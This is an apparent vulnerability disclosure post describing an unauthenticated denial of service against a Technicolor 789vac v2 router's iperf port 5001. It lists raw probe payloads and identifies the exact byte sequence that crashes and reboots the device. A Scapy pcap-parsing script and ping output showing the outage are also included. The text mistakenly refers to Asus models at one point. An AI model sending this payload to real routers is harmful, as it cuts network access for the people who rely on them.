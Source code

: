 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We tested the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1 BOF: b'\x41' * 10000
Probe #2 Unexpected input from another protocol: b'GET / HTTP/1.1\r\nHost: 192.168.1.1\r\n\r\n'
Probe #3: b'\r\n\r\n'
Probe #4 Enumeration: b'\x69\x70\x65\x72\x66\x20\x2d\x76\x00'
Probe #5 unexpected binary sequence: b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
```

Probe scraping: 
```
from scapy.all import rdpcap


file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

target_ip = "ip_addr" 
target_port = 5001

probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes: 
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #5 is the chosen one that leads Techicolor 789vac failure. The Router becomes unreachable from every service. 
```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms



From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```

Moreover, this will result in an unintended system reboot. The time required for the system to reboot is unpredictable, ranging from a few seconds up to 10 minutes after the actor has exploited the system.
 
